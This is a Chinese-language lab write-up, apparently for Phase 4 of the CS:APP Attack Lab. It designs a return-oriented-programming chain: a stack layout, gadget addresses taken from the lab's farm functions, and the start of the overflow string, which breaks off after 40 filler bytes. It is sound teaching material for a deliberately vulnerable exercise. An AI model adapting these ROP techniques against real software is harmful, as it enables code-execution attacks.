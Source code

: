 |栈空间|填充|
|:---:|:---:|
|(launch函数栈帧)|
|0x4017ec|return address 
|(test函数栈帧)|
|8字节|cookie
|`5f c3`所在的地址 |gadget address 1
|(getbuff函数栈帧)|
|40字节buffer|填充任意字符
其中
```
gadget 1:
	pop    %rdi
	ret

return address:
	0x4017ec <touch2>
```
gadget address1 对应的字节指令是`5f c3`,但是在farm.d中找不到,只好借助中间变量
注意到
```
0x00000000004019a7 <addval_219+0>:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
# 58 90 c3 :	pop		%rax;ret
0x00000000004019a0 <addval_273+0>:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
# 48 89 c7 c3 :		movq	%rax,%rdi;ret
```
所以gadget应该设计为:
```
gadget 1:
	pop    %rax
	ret

gedget 2:
	movq    %rax,%rdi
	ret
```
相应地,栈空间应该设计为:

|栈空间|填充|
|:---:|:---:|
|(launch函数栈帧)|
|0x4017ec|touch2 address
|0x4019a2|gadget address 2
|(test函数栈帧)|
|8字节|cookie
|0x4019ab|gadget address 1
|(getbuff函数栈帧)|
|40字节buffer|填充任意字符
根据以上设计,填充的字符串为
```
/* Phase4 */
ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff ff ff 
```